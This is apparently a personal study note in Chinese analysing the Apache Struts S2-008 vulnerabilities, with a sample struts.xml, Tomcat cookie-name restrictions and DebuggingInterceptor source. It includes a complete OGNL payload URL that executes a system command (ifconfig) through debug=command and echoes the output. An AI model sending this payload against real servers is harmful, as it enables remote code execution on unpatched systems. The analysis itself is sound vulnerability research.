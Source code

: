 # S2-008漏洞分析

这个涉及了多个鸡肋漏洞，但是思路还是可以学！

## 影响版本

Struts 2.1.0 - Struts 2.3.1

## Cookie 拦截器错误配置可造成 OGNL 表达式执行分析

还需要配置一下真恶心，之前的struts.xml

```java
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.0//EN"
        "http://struts.apache.org/dtds/struts-2.0.dtd">

<struts>
    <package name="S2-001" extends="struts-default">
        <interceptors>
            <interceptor name="cookie" class="org.apache.struts2.interceptor.CookieInterceptor"/>
        </interceptors>
        <action name="login" class="com.test.s2001.action.LoginAction">
            <result name="success">welcome.jsp</result>
            <result name="error">index.jsp</result>
            <interceptor-ref name="defaultStack" />

            <interceptor-ref name="cookie">
                <param name="cookiesName">*</param>
                <param name="cookiesValue">*</param>
            </interceptor-ref>
        </action>
    </package>

</struts>
```

这里看出确实可以，太鸡肋了甚至没必要分析了

![](img/1.png)

主要是大多 Web 容器对 Cookie 名称都有字符限制，比如tomcat的

```java
 public static final char SEPARATORS[] = { '\t', ' ', '\"', '(', ')', ',', ':', ';', '<', '=', '>', '?', '@', '[', '\\', ']', '{', '}' };
```

所以没法利用，知道有这玩意儿就行了

## Struts <= 2.3.17 DebuggingInterceptor RCE

开启很简单在`struts.xml`当中添加

```xml
<constant name="struts.devMode" value="true" />
```

简单测试一下，果然是可以的

![](img/2.png)

```url
http://127.0.0.1:8080/login.action?debug=command&expression=(%23_memberAccess.allowStaticMethodAccess=true,%23context["xwork.MethodAccessor.denyMethodExecution"]=false,%23cmd="ifconfig",%23ret=@java.lang.Runtime@getRuntime().exec(%23cmd),%23data=new+java.io.DataInputStream(%23ret.getInputStream()),%23res=new+byte[1000],%23data.readFully(%23res),%23echo=new+java.lang.String(%23res),%23out=@org.apache.struts2.ServletActionContext@getResponse(),%23out.getWriter().println(%23echo))
```

现在简单分析一下，在`org.apache.struts2.interceptor.debugging.DebuggingInterceptor`,在前面可以看到有四种模式，具体自己测试

```java
private static final String XML_MODE = "xml";
private static final String CONSOLE_MODE = "console";
private static final String COMMAND_MODE = "command";
private static final String BROWSER_MODE = "browser";
```

那为什么可以解析任意ognl表达式呢，看下面两张图够了，太简单了就这样吧

![](img/3.png)![](img/4.png)

## 其他

太鸡肋了，暂时不想搞了
